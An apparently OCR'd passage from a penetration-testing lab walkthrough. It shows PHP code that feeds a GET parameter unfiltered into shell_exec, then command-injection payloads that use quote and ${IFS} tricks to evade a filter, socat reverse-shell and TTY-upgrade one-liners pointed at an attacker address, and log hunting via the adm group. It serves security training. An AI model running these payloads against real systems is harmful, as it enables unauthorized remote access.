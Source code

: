         return false;
        }

        if (isset($_GET['ip'])) {
        $ip = $_GET['ip'];
        if (filter($ip)) {
        $output = "Invalid input";
        } else {
        $cmd = "bash -c 'ping -c 1 " . $ip . "'";
        $output = shell_exec($cmd);
        }
        }
        ?>
        <?php
        echo $output;
        ?>
        
        
        We can see that the majority of options for getting a reverse shell are filtered which will make things difficult, however one that is not is socat. Socat is a versatile tool that can be used for catching shells, and even pivoting as we have seen in the Pivoting, Tunneling, and Port Forwarding module. Let's check and see if it's available to us on the system. Heading back to Burp and using the request GET /ping.php?ip=127.0.0.1%0a'w'h'i'ch${IFS}socat shows us that it is on the system, located at /usr/bin/socat.





                        //Getting a Reverse Shell

        ur base command will be as follows, but we'll need to tweak it some to get past the filtering:

        socat TCP4:10.10.14.5:8443 EXEC:/bin/bash

        We can modify this command to give us a payload to catch a reverse shell.

        GET /ping.php?ip=127.0.0.1%0a's'o'c'a't'${IFS}TCP4:10.10.14.15:8443${IFS}EXEC:bash HTTP/1.1


        Start a Netcat listener on the port used in the Socat command (8443 here) and execute the above request in Burp Repeater. 

        Next, we'll need to upgrade to an interactive TTY

        We'll start a Socat listener on our attack host.

        Gkaranikas@htb[/htb]$ socat file:`tty`,raw,echo=0 tcp-listen:4443


        Next, we'll execute a Socat one-liner on the target host.

        $socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.15:4443

        The results of the id command are immediately interesting. The Privileged Groups section of the Linux Privilege Escalation module shows an example of users in the adm group having rights to read ALL logs stored in /var/log. Perhaps we can find something interesting there. We can use aureport to read audit logs on Linux systems, with the man page describing it as "aureport is a tool that produces summary reports of the audit system logs."

        $ aureport --tty | less
